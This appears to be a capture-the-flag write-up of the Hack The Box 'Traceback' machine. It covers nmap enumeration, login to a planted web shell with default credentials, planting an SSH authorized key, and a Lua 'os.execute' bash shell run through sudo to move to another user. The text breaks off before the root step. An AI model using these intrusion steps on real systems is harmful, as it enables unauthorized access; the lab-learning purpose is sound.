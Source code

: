 ## Hack The Box - Tracback

### This is my writeup and walkthrough for Traceback from Hack The Box.


![main](https://user-images.githubusercontent.com/36403473/90196696-cd8f2a00-ddcc-11ea-9f4f-5c0f9ca9ba3d.jpg)





### It was an easy machine from *Hack The Box*

## `Enumeration`

#### 1-Nmap 
  `nmap -sC -sV 10.10.10.181`

``` 
nmap -sC -sV 10.10.10.181
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-14 01:20 EET
Nmap scan report for 10.10.10.181
Host is up (0.41s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 103K  2020-02-27 05:37  smevk.php
|_
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Index of /
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
I found http on port 80 and ssh on port 22.
use should have password to conncet server so lets see http 
i opend source code i found this comment 
`
		<!--Some of the best web shells that you might need ;)-->`

![Screenshot from 2020-05-07 17-49-56](https://user-images.githubusercontent.com/36403473/81316540-feecb100-908b-11ea-94d2-a4b602e0a7b6.png)
 the first thing i do i bruteforce http dircetory by Wfuzz but it take much time , i googled on this comment i found differnt web shells on :
https://github.com/TheBinitGhimire/Web-Shells" 
reading smevk.php
we can login http://10.10.10.181/smevk.php
username:**admin**
password:**admin**

now lets go to this  directory  **/home/webadmin/.ssh** 
![Screenshot from 2020-05-07 18-23-38](https://user-images.githubusercontent.com/36403473/81319780-745a8080-9090-11ea-800a-f18601cdc38f.png)
i could to upload ssh autherizeed key 
to generate ssh keys  
i used  **`ssh-keygen`** tool on linux 
![sshgenerat](https://user-images.githubusercontent.com/36403473/81320041-da470800-9090-11ea-93d7-6956bc5bfdc0.png)
and uplad an autherized key on the server 

so now lets try to login to server:
**`ssh-i id_rsa webadmin@10.10.10.181`**

![serverlogin](https://user-images.githubusercontent.com/36403473/81354095-1303d300-90cb-11ea-8390-6c0b34e6e995.png)


![echo_note](https://user-images.githubusercontent.com/36403473/81354623-61fe3800-90cc-11ea-8ccc-92a912176868.png)
two files was the solution to take user acess **note.txt** & **bash-history**
okey the olny thing we will do write simple lua script and save it on file
**echo 'os.execute(" /bin/bash -i ")' >>block.lua ** 
save it on **block.lua file**

![note script](https://user-images.githubusercontent.com/36403473/81354540-2cf1e580-90cc-11ea-8b80-ff368637bbfb.png)
 okey lets try to acess sysadmin  by block.lua
` sudo -u sysadmin /home/sysadmin/luvit block.lua
`
 go back to home directory 
![acces_system_admin](https://user-images.githubusercontent.com/36403473/81355358-983cb700-90ce-11ea-8a26-2eec59305606.png)
  
now i have access on sysadmin 
checking files `ls -al `

![acces_system_admin](https://user-images.githubusercontent.com/36403473/81357137-287cfb00-90d3-11ea-874e-160c7a63cca7.png)

now i have user access `user.txt`

the last step is to get root access so i searched all files i didnt get any thing 
so i use **`ps -aus`** commmnd  to provide information about the currently running processes .
i notice this directory **` /etc/update-motd.d/`**
going to this directory ckeck all details **`ls -al`**
![not2root](https://user-images.githubusercontent.com/36403473/81357368-ba850380-90d3-11ea-9e74-9ceedefe51cc.png)

to get root access 


